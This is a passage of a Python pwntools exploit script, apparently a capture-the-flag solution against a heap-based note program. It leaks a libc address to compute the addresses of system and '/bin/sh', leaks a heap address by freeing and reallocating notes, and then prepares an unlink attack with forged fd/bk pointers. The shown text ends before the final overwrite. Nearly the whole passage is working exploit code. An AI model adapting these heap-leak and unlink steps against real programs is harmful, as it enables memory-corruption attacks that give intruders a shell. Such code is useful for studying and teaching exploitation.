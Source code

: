 ```
leak = p.recvuntil("\n")
print leak[0:-1].encode('hex')
leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leaklibcaddr)
delete_note(1)
delete_note(0)

libc_base_addr = leaklibcaddr - 0x3c4b78
print "libc_base: " + hex(libc_base_addr)

system_sh_addr = libc_base_addr + libc.symbols['system']
print "system_sh_addr: " + hex(system_sh_addr)

binsh_addr = libc_base_addr + next(libc.search('/bin/sh'))
print "binsh_addr: " + hex(binsh_addr)


####################leak heap#########################

notelen=0x80

new_note("A"*notelen)#0
new_note("B"*notelen)
new_note("C"*notelen)
new_note("D"*notelen)
delete_note(2)
delete_note(0)

#gdb.attach(p)
#raw_input()
new_note("AAAAAAAA")
list_note()
p.recvuntil("0. AAAAAAAA")
leak = p.recvuntil("\n")

print leak[0:-1].encode('hex')
leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))

print "leakheapaddr: "+hex(leakheapaddr)

#raw_input()
delete_note(0)
delete_note(1)
delete_note(3)

####################unlink exp#########################

notelen = 0x80

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)

delete_note(2)
delete_note(1)
delete_note(0)

fd = leakheapaddr - 0x1808
bk = fd + 0x8


#gdb.attach(p)

```